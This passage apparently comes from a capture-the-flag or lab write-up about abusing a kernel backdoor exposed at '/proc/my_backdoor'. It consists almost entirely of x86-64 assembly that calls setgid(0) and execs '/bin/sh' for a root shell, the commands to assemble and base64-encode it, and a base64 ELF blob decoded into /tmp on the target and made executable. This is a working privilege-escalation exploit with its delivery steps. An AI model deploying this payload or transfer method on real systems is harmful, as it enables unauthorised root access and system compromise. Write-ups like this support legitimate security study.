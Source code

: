 ```
    test	rax, rax
    jne		fail

    ; setgid(0)
    push	106
    pop		rax
    xor		rdi, rdi
    syscall

    push	0x68
    mov		rax, 0x732f2f2f6e69622f
    push	rax
    mov		rdi, rsp
    push	0x1010101 ^ 0x6873
    xor		dword [rsp], 0x1010101
    xor		esi, esi
    push	rsi
    push	8
    pop		rsi
    add		rsi, rsp
    push	rsi
    mov		rsi, rsp
    xor		edx, edx
    push	0x3b
    pop		rax
    syscall

    push	60
    pop		rax
    xor		rdi, rdi
    syscall

    fail:
    push	60
    pop		rax
    push	1
    pop		rdi
    syscall

path:
db "/proc/my_backdoor",0x00
shell:
db "/bin/sh",0x00
```

`$ nasm -felf64 pwn.S -o pwn.o && ld pwn.o -o pwn && strip pwn && base64 pwn`

Then we simply copy it over to the server and execute it:
```
$ cat << EOF | base64 -d > /tmp/lol
> f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAgABAAAAAAABAAAAAAAAAADABAAAAAAAAAAAAAEAAOAAB
> AEAAAwACAAEAAAAFAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAAGAEAAAAAAAAYAQAAAAAAAAAA
> IAAAAAAAAAAAAAAAAABqAlhIv/4AQAAAAAAASDH2SDHSDwVIicdqEFhoyAcAAGiWBwAAXloPBWpp
> WEgx/w8FSIXAdUBqalhIMf8PBWpoSLgvYmluLy8vc1BIiedocmkBAYE0JAEBAQEx9lZqCF5IAeZW
> SInmMdJqO1gPBWo8WEgx/w8FajxYagFfDwUvcHJvYy9teV9iYWNrZG9vcgAvYmluL3NoAAAuc2hz
> dHJ0YWIALnRleHQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAALAAAAAQAAAAYAAAAAAAAAgABAAAAAAACAAAAAAAAA
> AJgAAAAAAAAAAAAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAQAAAAMAAAAAAAAAAAAAAAAAAAAAAAAA
> GAEAAAAAAAARAAAAAAAAAAAAAAAAAAAAAQAAAAAAAAAAAAAAAAAAAA==
> 
> EOF
localhost:/tmp$ ls
lol
localhost:/tmp$ chmod +x lol
```